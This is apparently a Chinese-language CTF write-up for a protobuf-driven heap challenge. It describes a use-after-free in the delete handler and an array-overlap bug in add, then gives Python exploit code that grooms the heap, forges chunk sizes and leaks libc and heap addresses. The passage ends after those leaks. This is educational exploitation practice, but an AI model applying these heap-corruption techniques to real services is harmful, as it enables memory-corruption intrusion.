 不过通过搜后面的啥还是能搜出来是 `protobuf` 的。还好协议字段已经直接写在字段里了，看名字猜类型。

![image-20230528221007371](https://cdn.ova.moe/img/image-20230528221007371.png)

不知道是哪里改的，但是实测发现 actionid, msgidx, msgsize 都需要 *2 才是正常值。

因为写 protobuf 太麻烦了，所以写了一个 [pwnutils](https://github.com/Nova-Noir/PwnUtils)

菜单

```python
def new(idx: int, size: int, content: bytes):
    sh.sendafter(b'now: \n', pb_serialize([1*2, idx*2, size*2, content]))

def edit(idx: int, content: bytes):
    sh.sendafter(b'now: \n', pb_serialize([2*2, idx*2, 2, content]))

def show(idx: int):
    sh.sendafter(b'now: \n', pb_serialize([3*2, idx*2, 2, b'A']))

def delete(idx: int):
    sh.sendafter(b'now: \n', pb_serialize([4*2, idx*2, 2, b'A']))
```

![image-20230528221200181](https://cdn.ova.moe/img/image-20230528221200181.png)

漏洞点在 `del` 没有把指针置 0 造成 UAF

![image-20230528221243421](https://cdn.ova.moe/img/image-20230528221243421.png)

因此可以通过打 tcache + UAF 一把梭，简单题。

不过其实还有一个隐藏的漏洞点，在 add 这里，甚至可以在没有 UAF 的情况下打通（ talkbot_revenge? ）

![image-20230528221331330](https://cdn.ova.moe/img/image-20230528221331330.png)

注意到 `heap` 和 `size` 只有 `0x20` 的偏移。那么如果我们 `add(0, 0)` 之后再 `add(0x20, 0)`，就会让 `heap[0x20]` 写在 `size[0]` 上，造成 `size[0]` 非常巨大。

此时，利用 edit 就可以造成堆溢出。此时我们可以在下面重新造一个 chunk 用（因为这个 chunk 太大了，直接 show 会出问题），然后再利用下一个 chunk 再去堆溢出，改一个 unsortedbin 出来泄露。

然而麻烦的是，protobuf 解析的时候会创建很多堆块，并且它不回收。而我们最大只能创建  `0xf0` 的堆块，所以堆风水调了我很久。

```python
new(0, 0, b'')
new(1, 0x10, b'')
new(0x20, 0x10, b'')
edit(0, p64(0)*3+p64(0x51)+b'\x00'.ljust(0x48, b'\x00')+p64(0x91))
delete(1)
new(2, 0x88, b'A'*0x70)
edit(2, b'\x00'.ljust(0x68, b'\x00') + p64(0x451))
new(10, 0xf0, b'')
new(11, 0xf0, b'')

delete(0x20)
new(12, 0xf0, b'')
show(12)

libc_base = u64(sh.recv(6).ljust(8, b'\x00')) - 0x1ebbe0
sh.recv(0x9a+0x38)
heap_base = u64(sh.recv(6).ljust(8, b'\x00')) - 0x510
```

